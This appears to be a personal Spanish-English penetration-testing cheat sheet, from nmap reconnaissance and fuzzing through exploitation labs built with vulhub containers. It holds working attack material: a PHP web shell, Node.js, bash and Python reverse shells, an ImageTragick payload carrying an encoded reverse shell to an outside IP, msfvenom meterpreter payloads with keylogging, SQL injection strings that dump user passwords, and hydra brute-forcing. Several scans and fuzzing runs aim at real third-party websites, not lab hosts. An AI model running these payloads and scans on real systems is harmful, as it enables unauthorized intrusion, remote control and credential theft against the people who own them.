








## Reconocimiento
### Nmap 
```bash
route -n
nmap -p- 192.168.111.1 # scanning all ports
nmap -p1-100 192.168.111.1 # scanning by ports
nmap --top-ports 300 192.168.111.1 # common ports
nmap --top-ports 300 --open 192.168.111.1 # common ports | only open ports
nmap -p- --open 192.168.111.1
nmap -p- --open 192.168.111.1 -v # view scannign in real time | v=verbose
nmap -p- --open 192.168.111.1 -v -n # no dns resolution
nmap -p- --open 192.168.111.1 -v -n -T5 # T=temporizer to insane (1,2,3,4,5)
nmap -p- --open 192.168.111.1 -v -n -T5 -sT # TCP packages
nmap -p- --open 192.168.111.1 -v -n -T5 -sT -Pn # Pn=no ping
nmap -p- --open 192.168.111.1 -v -n -T5 -sU -Pn # UDP packages
nmap -sn 192.168.111.0/24 # active host
nmap -sn 192.168.111.0/24 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort
nmap -O 102.168.111.42 # view OS -- not recommended
nmap -p22,80 -sV 192.168.111.1 # view version and service

```

```bash
SYN - (RST(cerrado) | SYN/ACK (abierto) - ACK (established))
```

### tcpdump
`tcpdump is a powerful command-line packet analyzer tool used to capture, display, and analyze network traffic`

```bash
tcpdump -i wlo1 -w captura.cap -v
```

### iconfig
`iwconfig is a command-line tool used to configure and display information about wireless network interfaces`

### wireshark
```bash
wireshark captura.cap &>/dev/null & disown # disown=second plane, independet of father (console)
```
- filters:

`ip.flags.mf == 1`

## Técnicas de evasión de firewalls
```bash
nmap -p53 192.168.100.100 -f # fragmented
nmap -p53 192.168.100.100 --mtu 16
nmap -p53 192.168.100.100 -D 192.168.100.200 # can use another port to send ip origin scan
nmap -p53 192.168.100.100 --data-length 21 # set data length to send in the scan
nmap -p2 192.168.100.1 --spoof-mac Dell # change mac address not recommended
nmap -p53 192.168.100.1 -sS # self scan. only gete SYN and SYN/ACK. Dont finish handshake
nmap -p53 192.168.100.1 -sS --min-rate 5000 # cantidad de paquetes que quieres tramitar por segundo


```

### arp-scan
```bash
arp-scan -I wlo1 --localnet # view host in local net
```

## Scripts y categorías
```bash
locate .nse

nmap -p53 192.168.100.1 -sC -sV # send scripts in scann
nmap -p53 192.168.100.1 --script="vuln or safe" # --script="vuln and safe" there are 14 categories
nmap -p80 192.168.100.100 --script http-enum # fuzzing (fuerza bruta para ver cada posble ruta potencial)


```

### lsof
```bash

lsof -i:80 # que servicio esta ocupando el puerto
```

### tshark
```bash
tshark -r captura.cap -Y "http" 2>/dev/null # Y=filter by
```

#### Example
- Create a dir 
- Open http server with python

## Lua para nmap

## Enumeración de puertos usando descriptores de archivo
```bash
seq 1 6 # 1, 2, 3, 4, 5, 6

echo '' > /dev/tcp/192.168.100.1
echo $? # state code (0)

(echo '' > /dev/tcp/192.168.100.1/20) 2>/dev/null && echo "[+] El puerto esta abierto" || echo "[-] El puerto esta cerrado"


```

### Descriptores de archivo

- 0: Entrada estándar (stdin, normalmente el teclado).
- 1: Salida estándar (stdout, normalmente la pantalla).
- 2: Error estándar (stderr, también la pantalla por defecto).
- 3 y superiores: Descriptores personalizados que puedes asignar a archivos, sockets, tuberías, etc.

```bash
#!/bin/bash
exec 3<> /dev/tcp/192.168.100.1/53  # Abre la conexión
echo "Hola" >&3                    # Escribe "Hola" al descriptor 3 (envía al servidor)
cat <&3                            # Lee la respuesta desde el descriptor 3
exec 3>&-                          # Cierra el descriptor 3
```
## Descubrimiento de equipos en red local
```bash
hostname -I
ifconfig
ip addr

nmap -sn 192.168.100.1 # sn=swing ping
arp-scan -I wlo1 --localnet

ping -c 1 192.168.100.1
(ping -c 1 192.168.100.1) &>/dev/null # -c 1 = send only 1 package
timeout 1 bash -c "ping -c 1 192.168.100.191" &>/dev/null # 1 bash = just 1 second
timeout 1 bash -c "ping -c 1 192.168.100.1" &>/dev/null && echo "[+] El host esta activo"

```

### masscan

## Validación del objetivo
hackerone.com

## Descubrimiento de correos electronicos
hunter.io
phonebook.cz
intelx.io
clearbit.com
email-checker.net
veryfingemail

## Reconocimiento de imagenes
pimeyes.com

## Enumeración de subdominios
https://github.com/UnaPibaGeek/ctfr

https://github.com/danielmiessler/SecLists

https://github.com/aboul3la/Sublist3r


```bash

gobuster vhost -u https://tinder.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 20 # t=threads

gobuster vhost -u https://tinder.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt | grep -v "403"

```

### wfuzz
```bash
wfuzz -c -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.tinder.com"  https://tinder.com

wfuzz -c --hc=403 -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.navifiesta.com.mx"  http://www.navifiesta.com.mx/ # hc= hide codes

wfuzz -c --sc=200 -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.navifiesta.com.mx"  http://www.navifiesta.com.mx/ # sc= show

```

## Sublist3r
```bash

python3 sublist3r.py -d navifiesta.com.mx

```

## Credenciales y brechas de seguridad
https://dehashed.com/

## Identificación de tecnologias de una pagina web
### whatweb

```bash
whatweb http://navifiesta.com.mx/


```

## Fuzzing y enumeración de archivos
```bash

gobuster dir -u http://navifiesta.com.mx -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200

gobuster dir -u http://navifiesta.com.mx -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -b 403,404,500,301,302 # b=blacklist codes

gobuster dir -u http://navifiesta.com.mx -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -b 403,404,500,301,302 -x php, html,txt # x=extensions

gobuster dir -u http://navifiesta.com.mx -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -s 200 -b '' -x php,html,txt # s=source codes


wfuzz -c -t 60 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://navifiesta.com.mx/FUZZ
 

```

### ffuf
```bash
ffuf -c -u http://navifiesta.com.mx/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50

ffuf -c -u http://navifiesta.com.mx/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --mc=200 #mc=status code


```
- foxyproxy

## Google Dorks / Google Hacking
```txt
site:navifiesta.com.mx filetype:docs
intext:navifiesta.com.mx filetype:png


```

```bash

wget url # to downlaod file
exiftool file # view metadata

```

https://pentest-tools.com/

https://www.exploit-db.com/

## Identificación y verificación externa de la version del sistema
whichSystem.py

## Docker
```bash
sudo apt intall docker.io -y
service docker start
docker images

docker build -t my_first_image . # .=current dir
docker pull debian # dowload doker imge

docker run -dit # d=second plane, i=interactive, t=virtual console
docker run -dit --name myContainer my_first_image
docker ps

docker exec -it myContainer bash

apt update # in container
apt install net-tools -y
apt insall iputils-ping -y

docker stop <container id>
docker ps -a -q # only shows id's

docker rm <container id> --force
docker rm $(docker ps -a -q)

docker rm $(docker ps -a -q) --force

docker rmi <docker image ID>
docker rmi $(docker images -q)

```

## Port Forwarding
```bash
docker rmi $(docker images --filter "dangling=true" -q) #remove none images

docker run -dit -p 80:80 --name myWebServer webserver
docker port myWebServer

cd /var/www/html # dafult with apache

```

```php
<?php
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>

```
- in url
```txt
http://localhost/cmd.php?cmd=ls -l
```

### monturas
```bash
docker run -dit -p 80:80 -v /home/edibauer/Desktop/h4ck/d0ck3r:/var/www/html --name myWebServer webserver


```
## Docker compose
github.com/vulhub/vulhub

```bash

git clone --no-checkout --depth 1 https://github.com/vulhub/vulhub.git kibana-cve && cd kibana-cve && git sparse-checkout set "kibana/CVE-2018-17246" && git checkout master # download a dir form an entire repo

docker-compose up -d # into the dir that contains docker conpse.yml
docker port cve-2018-17246_kibana_1

docker-compose exec kibana bash
curl -s -X GET "http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/reverse.js"

```
- Reverse shell
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "192.168.33.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

- Use the following command when tere is not nano:
```bash
#!/bin/bash
cat <<EOF > reverse.js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "192.168.33.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
EOF


```

## Imagemagick
```bash

git clone --no-checkout --depth 1 https://github.com/vulhub/vulhub.git imagemagick && cd imagemagick && git sparse-checkout set "imagemagick/imagetragick" && git checkout master # download a dir form an entire repo

docker-compose up -d

pushd /home/edibauer/Downloads
popd # return to the previos path

```
- In downloads, create a test.txt file

- In burpsuite
    - Change the value of the port to 8081
    - Use foxyproxy to use burpsuite
    - Upload the file. Into burpsuite press `ctrl + r` to activate `Repeater` and send file
    - Press `ctrl + i` to send it at `Intruder`
    - In `Intruder` make a `Sniper Attack`



```gif

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d; echo

# 443 best practice

# UPload file ans send it to pawned machine
nc -nlvp 4646

```

## Enumeración
### ftp 21
#### docker ftp server

```bash

docker run \
	--detach \
	--env FTP_PASS=123 \
	--env FTP_USER=user \
	--env PUBLIC_IP=192.168.0.1 \
	--name my-ftp-server \
	--publish 20-21:20-21/tcp \
	--publish 40000-40009:40000-40009/tcp \
	--volume /data:/home/user \
	garethflowers/ftp-server

```

```bash
cd /usr/share/wordlist
sudo gunzip -d wordlist.tar.gz

cat /usr/share/wordlists/rockyou.txt | awk 'NR==132'

ftp localhost # always in port 21

nmap -sC -p21 127.0.0.1


```

#### hydra
```bash

cat /usr/share/wordlists/rockyou.txt | head -n 200 > pass.txt

hydra -l edibauer -P pass.txt ftp://127.0.0.1 -t 15 # -l=know user -P=unknow pass. If we dont know usre or pass the letter must be in uppercase, else in lowercase

# only when there is aunthentication


```

#### docker anon fto
```bash
ftp localhost
user: anonymous
pass:

# always login like anonymous
nmap --script ftp-anon -p21 127.0.0.1

```

### ssh 22
https://docs.linuxserver.io/images/docker-openssh-server/

```bash

docker run -d \
  --name=openssh-server \
  --hostname=openssh-server `#optional` \
  -e PUID=1000 \
  -e PGID=1000 \
  -e TZ=Etc/UTC \
  -e PUBLIC_KEY=yourpublickey `#optional` \
  -e PUBLIC_KEY_FILE=/path/to/file `#optional` \
  -e PUBLIC_KEY_DIR=/path/to/directory/containing/_only_/pubkeys `#optional` \
  -e PUBLIC_KEY_URL=https://github.com/username.keys `#optional` \
  -e SUDO_ACCESS=false `#optional` \
  -e PASSWORD_ACCESS=false `#optional` \
  -e USER_PASSWORD=password `#optional` \
  -e USER_PASSWORD_FILE=/path/to/file `#optional` \
  -e USER_NAME=linuxserver.io `#optional` \
  -e LOG_STDOUT= `#optional` \
  -p 2222:2222 \
  -v /path/to/openssh-server/config:/config \
  --restart unless-stopped \
  lscr.io/linuxserver/openssh-server:latest
```

```bash
# util
docker run -d \
  --name=openssh-server \
  --hostname=pentest-course \
  -e PUID=1000 \
  -e PGID=1000 \
  -e TZ=Etc/UTC \
  -e PASSWORD_ACCESS=true \
  -e USER_PASSWORD=louise \
  -e USER_NAME=edibauer \
  -e LOG_STDOUT= `#optional` \
  -p 2222:2222 \
  -v /path/to/openssh-server/config:/config \
  --restart unless-stopped \
  lscr.io/linuxserver/openssh-server:latest
```

```bash
ssh edibauer@127.0.0.1 -p 2222
hydra -l edibauer -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 2222 -t 15

```

```bash
docker build -t my_ssh_server . # -t <image name>
docker run -dit -p22:22 --name mySSHServer my_ssh_server # --name <container name> <image name> 

```

- IN web browser to get codename:

`OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 launchpad`

## Enumeración de HTTP y HTTPS
```bash
whatweb

sslscan navifiesta.com.mx
### inspect SSL certificae and 443 port

```

https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160

```bash

docker-compose up -d
# in web browser https://127.0.0.1:8443/
locate .nse | grep heartbleed
nmap --script ssl-heartbleed -p8443 127.0.0.1

python3 ssltest.py 127.0.0.1 -p 8443


```

## Enumeración de servicio SMB
https://github.com/vulhub/vulhub/tree/master/samba/CVE-2017-7494

```bash

git clone --no-checkout --depth 1 https://github.com/vulhub/vulhub.git samba && cd samba && git sparse-checkout set "samba/CVE-2017-7494" && git checkout master 

### port 445
smbclient -L 127.0.0.1 -N
smbmap -H 127.0.0.1

smbclient //127.0.0.1/myshare -N
put greet.txt
dir
get greet.txt

tree

sudo apt install cifs-utils


```

- CrackMapExec

## Enumeración de gestores de contenido WOrdpress
https://github.com/vavkamil/dvwp

```bash

docker volume ls
docker volume ls -q

### after login in wordpress
docker-compose run --rm wp-cli install-wp


searchsploit wordpress user enumeration

whatweb http://127.0.0.1:31337
# result
http://127.0.0.1:31337 [200 OK] Apache[2.4.38], Cookies[wp_wpfileupload_3553a1d4703dc2d8888df7ebd05c3cf5], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[127.0.0.1], JQuery, MetaGenerator[WordPress 5.3], PHP[7.1.33], PoweredBy[-wordpress,-wordpress,,WordPress], Script[text/javascript], Title[test &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[5.3], X-Powered-By[PHP/7.1.33]

searchsploit wordpress user enumeration
searchsploit -x 41497 # 41497= ID | to view code

wpscan --url https://gthookah.com/ -e vp,u # -e=enumerates vp=vulnerable plugins u=users

# gena wpsacn API to show vulns

```

http://localhost:31337/xmlrpc.php

```bash

curl -s -X POST "http://localhost:31337/xmlrpc.php" # search xmlrpc abusing for wordpress

curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml
curl -s -X POST "http://127.0.0.1:31337/xmlrpc.php" -d@file_att.xml | batcat -l xml

wpscan --url http://127.0.0.1:31337 -U edibauer -P /usr/share/wordlists/rockyou.txt


```

## Joomla
```bash
# download container
git clone --no-checkout --depth 1 https://github.com/vulhub/vulhub.git joomla && cd joomla && git sparse-checkout set "joomla/CVE-2015-8562" && git checkout master

git clone https://github.com/rezasp/joomscan.git

php -S 0.0.0.0:8081 # open server using php
# in web browser put path like http://localhost/127.0.0.1:8080_report_2025-3-3_at_12.56.23.html


```

## Drupal
https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600

```bash

# download container
git clone --no-checkout --depth 1 https://github.com/vulhub/vulhub.git drupal && cd drupal && git sparse-checkout set "drupal/CVE-2018-7600" && git checkout master

https://github.com/SamJoan/droopescan

python3 setup.py install
pip3 install -r requirements.txt

./droopscan

droopescan scan drupal --url 127.0.0.1:8080

# use burpsuite, foxyproxy and send request with command to view sever
```

## Magento
https://github.com/steverobbins/magescan

## Reverse Shells, Bind Shells y Forward Shells
```bash
# --- REVERSE ---
# Create a dockerfile
docker build -t my_image . # build image
docker run -dit -p 80:80 --name myContainer my_image # run container
docker exec -it myContainer bash # execute container

apt install ncat # in machine

nc -nlvp 443 # in local machine
# -n=no dns resolution
# -l=listen all ocnnections
# -v=verbose
# -p=port

ncat -e /bin/bash 172.17.0.1 443 # in machine, put docker ip form the local machine
script /dev/mull -c bash # to show console

# --- BIND ---
ncat -nlvp 443 -e /bin/bash # in docker machine
nc 172.17.0.1 443 # in local

# --- FORWARD ---
docker stop myContainer

docker run -dit -p80:80 --cap-add=NET_ADMIN --name myContainer my_image

iptables --flush
iptables -A INPUT -p tcp --dport 80 -j ACCEPT # in machine

iptables -A INPUT -p tcp --dport 0:65535 -m conntrack --ctstate NEW -j DROP

http://localhost/cmd.php?cmd=ncat%20-e%20/bin/bash%20172.17.0.1%20443 # in machine

# use tty to avoid iptables

bash -i >& /dev/tcp/172.17.0.1/443 0>&1 # in machine

# reverse shell monkey pentester
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

apt install python3 # in machine

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


```
## Tipos de Payloads
- Staged: Send payload in fragmented

- not staged: Send all payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=4646 -f exe -o reverse.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=192.168.1.11 LPORT=4646 -f exe -o reverse.exe #staged

python3 -m http.server 1212 # to share file

# download exe file in victim's machine
# in metasploit
msfdb run
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
show options
set LHOST 192.168.1.11
set LPORT 4646
run

# in hacked machine
getuid
shell
exit
screenshot
kitty +kitten icat /usr/share/metasploit-framework/CggkDHeV.jpeg

keyscan_start
keyscan_dump

background # move machine un second place

search suggester

# --
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=192.168.1.11 LPORT=4646 -f exe -o shell.exe # non staged

use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 192.168.1.11
set LPORT 4646
run

# --
# using ncat
msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=192.168.1.11 LPORT=4646 -f exe -o test.exe

```

## Tipos de explotaciones (MAnuales y automatizadas)

https://github.com/appsecco/sqlinjection-training-app

```bash
# -- AUTOMATED
docker-compose up -d
http://127.0.0.1:8000/
-> Reset database

sqlmap
-> open burpsuite
# in raw we can save the resquest selecting the option 'copy to file'

sqlmap -r request.req -p searchitem --batch
sqlmap -r request.req -p searchitem --batch --dbs # view databses
sqlmap -r request.req -p searchitem --batch -D sqlitraining --tables # view tables
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users --columns
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users -C username,password --dump

# .. MANUAL
ctrl + r # sent to repeater in burpsuite
searchitem=test' order by 9-- -- #in request.req. If error doesnt appears then thst the number of the columns

searchitem=test' union select 1,2,3,4,5-- --
searchitem=test' union select 1,2,database(),4,5-- -
searchitem=test' union select 1,2,schema_name,4,5 from information_schema.schemata-- -
searchitem=test' union select 1,2,table_name,4,5 from information_schema.tables where table_schema='sqlitraining' -- -
searchitem=test' union select 1,2,column_name,4,5 from information_schema.columns where table_schema='sqlitraining' and table_name='users' -- -
searchitem=test' union select 1,2,group_concat(username,0x3a,password),4,5 from users -- -
searchitem=test' union select 1,username,password,4,5 from users -- -

echo -n "21232f297a57a5a743894a0e4a801fc3" | wc -c # counting letters
cat sqlInjPass.txt | awk '{print $2}' FS=':' # take worrd after separator
# decrypt using hashes.com

21232f297a57a5a743894a0e4a801fc3:admin
5f4dcc3b5aa765d61d8327deb882cf99:password
856936b417f82c06139c74fa73b1abbe:horcrux
a55287e9d0b40429e5a944d10132c93e:hodor
c93239cae450631e9f55d71aed99e918:alice1
e52848c0eb863d96bc124737116f23a4:rhombus
9aeaed51f2b0f6680c4ed4b07fb1a83c:troll
f0f8820ee817181d9c6852a097d70d8d:frodo


```

## ENumeración del sistema
- Reconocimiento: Detectar un falla para elevar privilegios

https://github.com/diego-treitos/linux-smart-enumeration
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh


```bash
# -- automated
./lse.sh # downloaded with wgert in github raw mode

# -- manuak
whoami
id
find -perm -4000 2>/dev/null #suid
find -perm -4000 -ls 2>/dev/null #suid

# exec binary files like owner (root)
# example
which python3
chmod u+s /usr/bin/python3
